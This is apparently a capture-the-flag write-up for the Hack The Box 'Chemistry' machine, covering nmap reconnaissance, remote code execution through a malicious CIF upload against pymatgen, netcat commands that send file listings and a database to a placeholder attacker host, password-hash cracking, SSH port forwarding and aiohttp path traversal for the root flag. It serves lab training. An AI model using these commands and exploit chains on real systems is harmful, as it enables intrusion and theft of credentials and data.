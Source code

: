 This is a writeup for recently expired chemistry machine in Hackthebox platform.

### Part 1: Finding Foothold

l started scanning with nmap:

```
# Nmap 7.94SVN scan initiated Fri Oct 25 05:33:29 2024 as: nmap -sC -sV -p- -T4 -oN chemistry_nmap.txt 10.10.11.38
Warning: 10.10.11.38 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.38
Host is up (0.32s latency).
Not shown: 65141 closed tcp ports (conn-refused), 392 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 25 Oct 2024 00:16:14 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>

```

I can see website hosted on port 5000 , opening the site provide us with login form and after registering it redirects us to `/dashboard` where we can upload '.cif' file.

i checked for vulnerability in login and register section but i couldn't find anything, so as there as file upload functionality i begin to attack it.
quickly researching 'cif exploit' leads me to:
[POC Writeup](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

I can execute arbitrary code using this exploit.I modified POC slightly to check if it works or not:

![NMAP](/static/writeups/chemistry/6.png)

changed "touch pwned" to "nc your-ip your-port"
and open netcat listener and upload it via upload functionality.

Attack succeds, getting reverse shell is difficult so,now lets keep changing POC slightly each time to execute different command according to our needs.

executing `("os").system ("ls -la | nc your-ip your-port")` shows different directory and files in `/home/app` directory.

going through each file i found database.db file in /home/app/instance directory which seems interesting. i downloaded it using nc and reading it using string: `string database.db`, i can see hashes and username of different user.

when i was executing above exploit i notice username `rosa` in `/home` directory which is also present in database.db.

i ran hashid to identify hash and hashcat to crack it.

![NMAP](/static/writeups/chemistry/1.png)

so, now with password and username, i successfully ssh into machine and got user flag
:

![NMAP](/static/writeups/chemistry/2.png)

### Part 2: Root Flag

We already got user and user flag. now, to get root flag I looked for open ports using:
ss -tunlp

![NMAP](/static/writeups/chemistry/3.png)

I found out another website was running locally in port 8080.
so, i forwarded port using ssh:

```
ssh -L myport:boxip:boxport user@boxip
```

I found out new website:

![NMAP](/static/writeups/chemistry/4.png)

![NMAP](/static/writeups/chemistry/5.png)

which was using aiohttp version 3.9.1, quick research shows me it is vulnerable to local file inclusion. [Github Link](https://github.com/z3rObyte/CVE-2024-23334-PoC)
so i looked at webpage source page and found `/assets` directory and made my exploit according to it (You can do it manually too):

![NMAP](/static/writeups/chemistry/7.png)

by running it i found root flag.

cheers!!
